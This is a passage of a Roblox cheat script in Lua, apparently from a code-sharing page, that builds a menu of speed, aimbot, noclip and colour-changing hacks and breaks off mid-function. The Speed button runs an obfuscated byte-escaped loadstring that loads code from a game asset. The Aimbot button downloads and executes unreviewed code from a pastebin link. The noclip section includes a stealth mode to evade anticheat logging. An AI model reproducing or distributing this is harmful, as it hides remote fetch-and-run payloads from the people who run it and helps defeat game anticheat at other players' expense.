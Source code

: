 b:Label("Other",{
    TextSize = 25; -- Self Explaining
    TextColor = Color3.fromRGB(255,255,255); -- Self Explaining
    BgColor = Color3.fromRGB(69,69,69); -- Self Explaining
    
})

b:Button("RGBGun",function()
    local c = 1 function zigzag(X)  return math.acos(math.cos(X * math.pi)) / math.pi end game:GetService("RunService").RenderStepped:Connect(function()  if game.Workspace.Camera:FindFirstChild('Arms') then   for i,v in pairs(game.Workspace.Camera.Arms:GetDescendants()) do    if v.ClassName == 'MeshPart' then      v.Color = Color3.fromHSV(zigzag(c),1,1)     c = c + .0001    end   end  end end)
end)

b:Button("Speed",function()
    net = true -- if false = do nothing
notify = false -- set this to false if u don't want to see notiflication


loadstring("\13\10\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\71\101\116\79\98\106\101\99\116\115\40\34\114\98\120\97\115\115\101\116\105\100\58\47\47\55\50\53\55\55\54\49\55\56\53\34\41\91\49\93\46\83\111\117\114\99\101\41\40\41\13\10")()

wait(0)
game.StarterGui:SetCore("SendNotification", {
Title = "âœ…!";
Text = "Net Bypass Activated.";
})
end)

b:Button("Aimbot",function()
loadstring(game:HttpGet("https://pastebin.com/raw/1Gp9c57U"))()
end)

b:Button("NoClip",function()
local StealthMode = true -- If game has an anticheat that checks the logs

local Indicator

if not StealthMode then
    local ScreenGui = Instance.new("ScreenGui", game.CoreGui)
    print("NOCLIP: Press Q to Activate")
    Indicator = Instance.new("TextLabel", ScreenGui)
    Indicator.AnchorPoint = Vector2.new(0, 1)
    Indicator.Position = UDim2.new(0, 0, 1, 0)
    Indicator.Size = UDim2.new(0, 200, 0, 50)
    Indicator.BackgroundTransparency = 1
    Indicator.TextScaled = true
    Indicator.TextStrokeTransparency = 0
    Indicator.TextColor3 = Color3.new(0, 0, 0)
    Indicator.TextStrokeColor3 = Color3.new(1, 1, 1)
    Indicator.Text = "Noclip: Enabled"
end

local noclip = true
local player = game.Players.LocalPlayer
local character = player.Character or player.CharacterAdded:Wait()
